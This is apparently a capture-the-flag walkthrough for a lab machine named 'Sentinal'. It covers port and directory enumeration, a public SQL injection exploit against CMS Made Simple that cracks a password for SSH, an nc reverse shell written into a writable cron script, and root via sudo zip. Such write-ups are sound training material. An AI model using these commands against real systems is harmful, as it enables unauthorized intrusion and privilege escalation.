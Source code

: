 # Exploitation Guide for Sentinal

## Enumeration

We start the enumeration process with a simple Nmap scan:
```
kali@kali:~/# nmap 192.168.83.150
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-14 03:54 EDT
Nmap scan report for 192.168.83.150
Host is up (0.00041s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
We find port 80 is open and visit it in our browser as a first step. On the page we find apache default home page. 
Checking /robots.txt and source code don't giveus anything. So let's start directory bruteforcing using dirb.

```
root@sentinal-VirtualBox:~# dirb http://192.168.83.150 -X .txt
-----------------
DIRB v2.22    
By The Dark Raver
-----------------
START_TIME: Sat Sep 19 05:49:57 2020
URL_BASE: http://192.168.83.150/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.txt) | (.txt) [NUM = 1]
-----------------
GENERATED WORDS: 4612                                                          
---- Scanning URL: http://192.168.83.150/ ----
+ http://192.168.83.150/note.txt (CODE:200|SIZE:151)                                                                                                                                                                                      
-----------------
END_TIME: Sat Sep 19 05:49:59 2020
DOWNLOADED: 4612 - FOUND: 1
```

We find a hidden note.txt that says
```
Dear Developers,

Our website is moved to sentinal.com
Do login into the panel, configure the website and start building project.

Thank you
sys admin
```


It is running an virtual host of sentinal.com
So we have to add sentinal.com in /etc/hosts
```
root@kunal:~# nano /etc/hosts
192.168.83.150  sentinal.com
```

## Exploitation

On visiting sentinal.com in our browser, we find it is running `CMS Made Simple v2.2.9`.
Searching for an exploit, we find it is vulnerable to SQL injection.
```
Cmsms < 2.2.10 SQL Injection
https://www.exploit-db.com/exploits/46635
```
Before running the script make sure following packages are installed
```
	apt install python-pip
	pip install requests
	pip install setuptools
	pip install termcolor
```
Execute the script with a wordlist to bruteforce
```
python 46635.py -u http://sentinal.com -w /opt/rockyou.txt --crack 

[+] Salt for password found: 551c92a536111490
[+] Username found: juniordev
[+] Email found: juniordev@sentinal.com
[+] Password found: a25bb9e6782e7329c236d2538dd4f5ac
[+] Password cracked: passion
```
We get a username `juniordev` and a password `passion`.
Now we can use this creds to SSH login to the system
```
ssh juniordev@192.168.83.150
password: passion

juniordev@sentinal: whoami
juniordev
```
## User Escalation

Looking at the /etc/crontab we find there is a cronjob run by user sentinal every minute
```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * sentinal /home/sentinal/Pictures/sentinal.sh
```


Going to /home/sentinal/Pictures and checking file permissions on senitnal.sh we find it is writable by user juniordev
```
juniordev@sentinal:/home/sentinal/Pictures$ ls -la
total 12
drwxr-xr-x  2 sentinal sentinal 4096 Sep 19 05:42 .
drwxr-xr-x 17 sentinal sentinal 4096 Sep 19 08:09 ..
-rwxrwxrw-  1 sentinal sentinal   76 Sep 19 08:12 sentinal.sh
```
Adding a reverse shell in sentinal.sh and getting a shell as user sentinal
```	
juniordev@sentinal:/home/sentinal/Pictures$ nano sentinal.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.6.2 920 >/tmp/f
```
```
kali@kali: nc -nvlp 920
listening on [any] 920 ...
192.168.83.150: inverse host lookup failed: Unknown host
connect to [kali] from (UNKNOWN) [192.168.83.150] 55428
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
sentinal@sentinal: whoami
sentinal
```

## Root Escalation

User sentinal can run /bin/zip as sudo
```
sentinal@sentinal:~$ sudo -l
sudo -l
Matching Defaults entries for sentinal on sentinal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sentinal may run the following commands on sentinal:
    (ALL) NOPASSWD: /bin/zip
```
zip binary has an unzip-command argument that can be used to run arbitary commands on the system 
```
sudo /bin/zip /tmp/kunal.zip /tmp/ -T --unzip-command="sh -c /bin/bash"
```
Another way to exploit zip binary is using gtfobins
```
sudo /usr/bin/zip mktemp -T -TT 'bash #'
```
And we are root
# id
id
uid=0(root) gid=0(root) groups=0(root)
# whoami
whoami
root
	
